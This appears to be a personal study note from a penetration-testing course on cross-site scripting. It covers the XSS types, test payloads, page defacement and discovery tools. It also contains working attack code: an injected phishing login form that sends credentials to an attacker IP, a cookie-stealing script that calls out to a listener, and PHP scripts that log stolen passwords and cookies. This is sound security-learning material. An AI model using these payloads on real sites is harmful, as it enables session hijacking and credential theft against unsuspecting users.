

## Intro To XSS

XSS is a type of vulnerability that takes advantage of a lack of user input sanitiszation to write and execute Javascript code. Due to how Javascript works, the XSS is executed on the side that loads the webpage (whether it's a client, somebody who opens a compromised page, or so on)

XSS has a limited scope - it can only execute JavaScript code in the browser. You cannot directly root or get a shell on a box easily with XSS. It can be used to enumerate data, modify webpages, steal cookies, and so on

```
Stored (Persistent) XSS 	The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments)

Reflected (Non-Persistent) XSS 	Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message)

DOM-based XSS 	Another Non-Persistent XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags)
```

## Stored/Persistent XSS

This is the most critical type of XSS. Our playoad gets stored somewhere, and gets retrieved/executed upon visiting the page. If we embed a cookie stealer on a comment page, we can steal cookies of anyone who visits the website.

We can use a test payload (generating an alert) to see if we can execute JavaScript code. This is easy to spot when our exploit works.

```
<script>alert(window.origin)</script>
<script>print()</script>
<script>alert(document.cookie)</script>
```

It's important to note that modern web development uses IFrames to handle user input, which limits the scope of XSS to the iframe, rather than the main web application.

## Reflected XSS

Occurs when our payload reaches the back-end server and gets reflected back to us.

A good example of how to use this is creating a phishing link. We create an exploit that works on our end the one time (ie, grabbing a cookie and sending it to a web server). This creates a GET link, that when clicked, will load the page and execute the XSS. We can view our HTTP history to grab the GET request that worked.



```
<script>alert(document.cookie)</script>
```

## DOM XSS

Occurs when JavaScript is used to change the page source through the Document Object Model, or DOM.

DOM XSS has two parts: the source (the object that takes the user input, like an input field or a URL parameter), or a Sink (the actual function that modifies the DOM)

Some common JS functions to modify the DOM are:

```

    document.write()
    DOM.innerHTML
    DOM.outerHTML


    add()
    after()
    append()
```

## Filter Evasion

If the ```<script>``` tag is not allowed, we can find other ways to execute JavaScript, like so:

```


```

## XSS Discovery

Web application culnverability scanners like Nessus, Burp Pro, and ZAP have automated detection for XSS.

XSS Strike, Brute XSS, XSSer are tools that can be used to test for XSS.

We can also use manual payloads, like

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md

https://github.com/payloadbox/xss-payload-list

## XSS Attacks - Defacing

We can use JavaScript through XSS to manipulate HTML elements of the DOM to make it look different.

```

Background Color document.body.style.background
Background document.body.background
Page Title document.title
Page Text DOM.innerHTML

<script>document.body.style.background = "#141d2b"</script>
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
<script>document.title = 'HackTheBox Academy'</script>
<script>document.getElementById("todo").innerHTML = "New Text"</script>


```

## XSS Attacks - Phishing

We can use XSS such that when a target clicks a link, the XSS is activated and sends data somewhere (like writing to a web server).

So, we can include an XSS payload the writes to the DOM when it's executed, creating some elements. When the user submits the login form, it will send a get request to our IP, with the data.

```document.write('<h3>Please login to continue</h3><form action=http://10.10.14.49><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');```

Note in order for this to work, we need to have a listener on our IP address for the specified port. We can use a basic PHP script to handle the requests. We use this XSS payload to create a phishing URL. We then copy the GET request URL of the successful XSS, and throw it at the victim. We will recieve the web traffic with the information.

index.php
sudo php -S 0.0.0.0:80
```
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

## XSS Attacks - Session Hijacking

Blind XSS is a type of XSS where code is executed on a page we do not have access to, such as:

```

    Contact Forms
    Reviews
    User Details
    Support Tickets
    HTTP User-Agent header

```

We can use the previous trick to have XSS that makes calls back to our server. An easy way of doing this is providing a remote script.

```<script src="http://10.10.14.49/exploit.js"></script>```

The core of subject hijacking is similar to phishing, but we have less user input required (ie we steal their cookie via a cookie stealer.)

myBlindXSSscript.js

```
new Image().src='http://10.10.14.49/index.php?c='+document.cookie
```

XSS Payload
```
<script src=http://OUR_IP/script.js></script>
```

index.php
```
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
sudo php -S 0.0.0.0:80